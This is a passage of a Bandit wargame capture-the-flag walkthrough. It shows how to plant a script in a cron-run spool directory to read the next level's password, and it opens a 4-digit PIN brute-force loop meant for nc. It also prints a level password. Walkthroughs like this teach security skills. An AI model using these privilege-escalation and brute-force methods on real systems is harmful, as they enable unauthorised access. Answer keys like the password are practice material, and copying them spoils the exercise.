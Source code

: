 create a file `get24pw` into `myshellscript` directory
```bash
$ touch get24pw
```

Make all files under `myshellscript` accessible by anyone so that `bandit24` has no issue to access these files.
```bash
$ chmod 777 -R /tmp/myshellscript
```
above command make all files `rwxrwxrwx` 

>4. Now let's sneak into `/var/spool/bandit/foo`
```bash
cp sneakinto.sh /var/spool/bandit/foo
```

>5. By `cron` 's scheduling management, `bandit24`'s shell script will recognize `sneakinto.sh` in the `var/spool/bandit/foo` which was written by `bandit23` and run that shell script which is `cat` 24's password into a file that 23 can read.


Answer :
bandit24, `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar` done.

---

### Bandit Level 24--> Level 25
Problem Prompt :
>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
	You do not need to create new connections each time

==Solution==

- High level overview of the approach
	1. Write a shell script that writes password for bandit24 and each of 4-digits number from 0000 to 9999 and redirect output.
	2. Feed that redirected output into `nc`

>1 . Write shell script that containing some kind of loop to enumerate all possible combinations

```bash
mkdir /tmp/myforce
touch script.sh
```

`script.sh`
```bash
#!/bin/bash
for i in {0000..9999}
do
	echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done

```
